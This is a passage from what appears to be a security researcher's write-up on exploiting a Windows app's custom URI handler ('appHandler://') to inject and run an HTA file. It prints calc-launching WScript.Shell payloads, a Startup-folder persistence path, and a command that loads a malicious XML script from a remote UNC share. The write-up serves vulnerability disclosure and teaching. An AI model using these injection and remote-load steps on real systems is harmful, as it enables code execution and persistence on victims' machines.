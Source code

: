 ```cs
Script Failed:
    System.InvalidOperationException: Unknown tag: script
   at [redacted]

Current Step:
    <script>var x=new ActiveXObject("WScript.Shell");x.Exec("calc.exe");</script>
```

The application does not recognize the `script` tag (it's not one of the
commands) and helpfully prints the complete line with the error. If I double
click the HTA file that I just injected then calc starts.

{{< imgcap title="Injected HTA executed" src="01-hta-with-calc.png" >}}

**A huge advantage of this method over the previous is being able to pass
parameters**. E.g., the following is a very convoluted way of showing a
second command prompt that does not close after execution. I actually spent an
hour trying to make this happen (lol):

`x.Exec("cmd.exe /k start cmd.exe /k echo 'hello world'")`.

## Exploitation
We can use rgod's method. They injected the HTA into the
administrator's startup directory. I could do something similar with:

```
appHandler://-script resurrected-test-injection.xml
  C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/STARTM~1/Programs/Startup/injected.hta
```

This has some limitations. We need to know the username of the target or the
user must be local admin (not necessarily the `Administrator` user because other
local admins can write to that path, too).

I tried using the `%username%` environment variable and passed
`C:/Users/%username%/AppData/Roaming/Microsoft/Windows/STARTM~1/Programs/Startup/injected.hta`
for the output file but the app did not resolve the environment variable. It did
not work here but might work in another app so it's good to know.

{{< imgcap title="Environment variable error" src="02-env-var-error.png" >}}

I felt like I had a good proof-of-concept but, I wanted to do more. I can
execute single binaries on the file system, why not inject the HTA in one
command then execute it with another? Something like:

`appHandler://-script \\IP\resurrected-exploit-1.xml C:/ProgramData/app/inject.hta`

Where `resurrected-exploit-1.xml` is:

```xml
<MyRoot>
    <script>var x=new ActiveXObject("WScript.Shell");x.Exec("calc.exe");</script>
    <BrowserOpen URI="C:/ProgramData/app/inject.hta">
</MyRoot>
```


[bug1]: https://twitter.com/CryptoGangsta/status/1367762486934446083
[bug2]: https://twitter.com/CryptoGangsta/status/1362799006514966530
[bug3]: https://twitter.com/CryptoGangsta/status/1359058979033284608
[bug4]: https://twitter.com/CryptoGangsta/status/1352818412213309441
[useless-rce-twitter]: https://twitter.com/CryptoGangsta/status/1369844949651361794
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[repl-url]: https://dotnetfiddle.net/o1mCnT
[uri-constructor]: https://docs.microsoft.com/en-us/dotnet/api/system.uri.-ctor#System_Uri__ctor_System_String_
[uri-docs]: https://docs.microsoft.com/en-us/dotnet/api/system.uri
[uri-file-path-support]: https://docs.microsoft.com/en-us/dotnet/api/system.uri?view=net-5.0#implicit-file-path-support
[rce-gist]: https://gist.github.com/parsiya/f235882ed04c4f881064a12dc7b6be15
[taviso-twitter]: https://twitter.com/taviso
[bug-693]: https://bugs.chromium.org/p/project-zero/issues/detail?id=693
[helpme-interwebz]: https://twitter.com/CryptoGangsta/status/1354612042200608768
[localghost-youtube]: https://youtu.be/Cgl51ZcACLg?t=90
[alesandro-twitter]: https://twitter.com/AlesandroOrtizR
[gesture-twitter]: https://twitter.com/CryptoGangsta/status/1377716233705955330